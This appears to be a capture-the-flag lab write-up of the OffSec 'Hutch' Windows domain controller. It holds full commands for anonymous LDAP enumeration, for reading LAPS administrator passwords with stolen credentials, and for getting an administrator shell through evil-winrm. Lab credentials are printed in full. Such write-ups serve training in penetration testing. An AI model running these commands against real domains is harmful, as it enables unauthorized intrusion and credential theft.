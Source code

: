 # Hutch

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

I try looking for smb shares but anonymous login does not show anything&#x20;

<figure><img src="../../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

same for RPC client, then i try rid bruteforcing:

<figure><img src="../../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

then i try launching the big boy and start an enum4linux scan but no hits. So i try ldapsearch:

```
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.51.122" "(objectclass=*)"
```

And we get a hit:

<figure><img src="../../../.gitbook/assets/image (139).png" alt=""><figcaption><p>fmcsorley:CrabSharkJellyfish192</p></figcaption></figure>

then we can start enumerating some new stuff like authed smb shares:

<figure><img src="../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

So i download all the files in SYSVOL and look at some files:

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

I saw this, idk if it can be useful yet or no. Then i see this GptTmpl.inf file:

```powershell
(root?kali)-[/home/?/MACHINE/Microsoft/Windows NT/SecEdit]
# cat GptTmpl.inf 
[Unicode]
Unicode=yes
[Registry Values]
MACHINE\System\CurrentControlSet\Services\NTDS\Parameters\LDAPServerIntegrity=4,1
MACHINE\System\CurrentControlSet\Services\Netlogon\Parameters\RequireSignOrSeal=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\RequireSecuritySignature=4,1
MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters\EnableSecuritySignature=4,1
[Version]
signature="$CHICAGO$"
Revision=1
[Privilege Rights]
SeAssignPrimaryTokenPrivilege = *S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415,*S-1-5-82-271721585-897601226-2024613209-625570482-296978595,*S-1-5-82-3682073875-1643277370-2842298652-3532359455-2406259117,*S-1-5-82-4068219030-1673637257-3279585211-533386110-4122969689,*S-1-5-19,*S-1-5-20,*S-1-5-82-1036420768-1044797643-1061213386-2937092688-4282445334,*S-1-5-82-3876422241-1344743610-1729199087-774402673-2621913236
SeAuditPrivilege = *S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415,*S-1-5-82-271721585-897601226-2024613209-625570482-296978595,*S-1-5-82-3682073875-1643277370-2842298652-3532359455-2406259117,*S-1-5-19,*S-1-5-20,*S-1-5-82-1036420768-1044797643-1061213386-2937092688-4282445334,*S-1-5-82-4068219030-1673637257-3279585211-533386110-4122969689,*S-1-5-82-3876422241-1344743610-1729199087-774402673-2621913236
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-549
SeBatchLogonRight = *S-1-5-32-568,*S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-559
SeChangeNotifyPrivilege = *S-1-1-0,*S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-11,*S-1-5-32-554
SeCreatePagefilePrivilege = *S-1-5-32-544
SeDebugPrivilege = *S-1-5-32-544
SeIncreaseBasePriorityPrivilege = *S-1-5-32-544,*S-1-5-90-0
SeIncreaseQuotaPrivilege = *S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415,*S-1-5-82-271721585-897601226-2024613209-625570482-296978595,*S-1-5-82-3682073875-1643277370-2842298652-3532359455-2406259117,*S-1-5-82-4068219030-1673637257-3279585211-533386110-4122969689,*S-1-5-19,*S-1-5-20,*S-1-5-32-544,*S-1-5-82-1036420768-1044797643-1061213386-2937092688-4282445334,*S-1-5-82-3876422241-1344743610-1729199087-774402673-2621913236
SeInteractiveLogonRight = *S-1-5-32-548,*S-1-5-32-544,*S-1-5-32-551,*S-1-5-9,*S-1-5-21-2216925765-458455009-2806096489-1115,*S-1-5-32-550,*S-1-5-32-549
SeLoadDriverPrivilege = *S-1-5-32-544,*S-1-5-32-550
SeMachineAccountPrivilege = *S-1-5-11
SeNetworkLogonRight = *S-1-1-0,*S-1-5-32-544,*S-1-5-11,*S-1-5-9,*S-1-5-32-554
SeProfileSingleProcessPrivilege = *S-1-5-32-544
SeRemoteShutdownPrivilege = *S-1-5-32-544,*S-1-5-32-549
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-549
SeSecurityPrivilege = *S-1-5-32-544
SeShutdownPrivilege = *S-1-5-32-544,*S-1-5-32-551,*S-1-5-32-549,*S-1-5-32-550
SeSystemEnvironmentPrivilege = *S-1-5-32-544
SeSystemProfilePrivilege = *S-1-5-32-544,*S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420
SeSystemTimePrivilege = *S-1-5-19,*S-1-5-32-544,*S-1-5-32-549
SeTakeOwnershipPrivilege = *S-1-5-32-544
SeUndockPrivilege = *S-1-5-32-544
SeEnableDelegationPrivilege = *S-1-5-32-544
```

i dont know what it is yet, i google it and see some privesc methods related to this so maybe i'll use it later:

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

After looking for authenticated enumeration techniques i see this one:

{% embed url="https://www.it-connect.fr/chapitres/comment-afficher-les-mots-de-passe-laps/" %}

and with this command i manage to get admin passwd:

```
ldapsearch -x -H 'ldap://192.168.51.122' -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

Then i can just get a shell with evil-winrm:

```
evil-winrm -i 192.168.51.122 -u administrator -p ')](;C3G]$lhee['
```

<figure><img src="../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>
